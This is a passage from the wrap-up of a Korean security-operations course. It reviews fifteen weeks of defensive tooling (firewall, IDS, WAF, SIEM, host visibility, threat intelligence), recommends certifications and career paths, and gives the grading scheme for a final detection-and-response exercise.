- 약점 주차의 lecture 재독
- W08 의 5 시나리오 다시 시도
- 본 시험의 5 단계 시뮬 재 실행

---

## 9. 본 과목 학습 마무리 — 15 주의 종합

### 9.1 학습한 내용

```
W01: 5 종 보안 솔루션 + 6v6 4-tier 인프라
W02-03: nftables 방화벽 (기초 + NAT)
W04-05: Suricata IDS (기초 + 룰 심화)
W06: Apache + ModSec WAF
W07: osquery 호스트 가시화 (신규)
W08: 중간고사
W09-10: Wazuh manager + agent (FIM / SCA / AR)
W11: sysmon-for-linux (신규)
W12-14: OpenCTI + CTI 통합 + Threat Hunting (신규)
W15: 기말 APT 5 단계 + AAR
```

### 9.2 본 과목의 가치

```
1. 5 종 보안 솔루션 운영 능력 (방화벽 / IDS / WAF / SIEM / 호스트 가시화)
2. CTI 통합 (W12-W14) — 모던 SOC 의 표준
3. R/B/P 시나리오 의 모든 주차 적용
4. 윤리적 운영 + 한국 표준 (ISMS-P / KISA / K-ISAC)
5. AAR 작성 + 운영 사이클의 표준화
```

### 9.3 수료 후 권장 학습 path

#### 자격증

- **CISA** (Certified Information Systems Auditor) — IT 감사
- **CISM** (Certified Information Security Manager) — 보안 관리
- **CompTIA Security+ / CySA+** — 입문 + SOC 분석
- **GIAC GMON / GCIH** — SANS, 보안 모니터링 / IH
- **한국 CISA / CPPG** — 한국 표준

#### 후속 course

- course5 soc — SOC 분석가
- course14 soc-advanced — 고급 SIEM
- course7 ai-security — 자동화 (Bastion)
- course19 agent-incident-response — AI Agent IR

#### 한국 보안 직군

- SOC 분석가 (Tier 1-3)
- 침해 대응 (IR) 분석가
- 보안 운영 엔지니어
- 위협 인텔리전스 분석가
- 한국 KISA 화이트해커 프로그램
- 안랩 / 이글루시큐리티 / SK인포섹 의 보안 컨설턴트

### 9.4 마치며

```
보안 솔루션 운영은 도구 사용이 아닌 **운영 사이클의 학습**.
정기 review + 룰 강화 + Coverage 향상 = 모던 SOC 의 본질.

본 학생이 다음 단계로 나아가길 권장:
  - 자격증 (Security+ 또는 CySA+)
  - 분기 hunt session + AAR 정기 작성
  - 한국 ISAC 회원 가입 + IOC sharing
  - 본 secuops 도구 의 본인 환경 (HackTheBox / TryHackMe / 학교 lab) 배포

보안 운영은 사람·도구·프로세스 의 균형.
지속 학습 + 윤리적 운영 + 산업 공유 → 한국 사이버보안의 발전.
```

---

## 10. 평가 기준 (W15 기말)

| 항목 | 비중 | 평가 방법 |
|------|------|----------|
| 단계 1 Recon | 20% | 3 도구 detection + dashboard 분석 |
| 단계 2 Initial Access | 20% | ModSec + Suricata + Wazuh 통합 |
| 단계 3 Lateral | 20% | nmap detect + 3 도구 매핑 |
| 단계 4 C2 + Exfil | 20% | CDB list 매치 + AR 활성 |
| 단계 5 IR + AAR | 20% | AAR 9 섹션 + 우선순위 권장 |

총 100점.

---

## 11. 마치며 — 본 과목 끝

```
secuops 의 15 주차 학습 종료.

본 학생이 secuops 도구의 운영 능력을 검증했다:
  - 5 종 보안 솔루션 (nftables / Suricata / ModSec / Wazuh / osquery)
  - 호스트 가시화 (osquery + sysmon)
  - CTI 통합 (OpenCTI / CDB list)
  - 침해 대응 (Active Response + AAR)

다음 단계 — 본 과목 + attack 과목 의 30 주 학습 후:
  → SOC 분석가 / 보안 엔지니어 / IR 분석가 의 첫 걸음
  → 자격증 + 정규 직무 경험
  → 한국 사이버보안의 표준 운영자

본인의 안전 + 학교의 신뢰 + 한국 사이버보안 의 발전을 위해
지속 학습 + 윤리적 운영 + 산업 공유 를 권장한다.
```
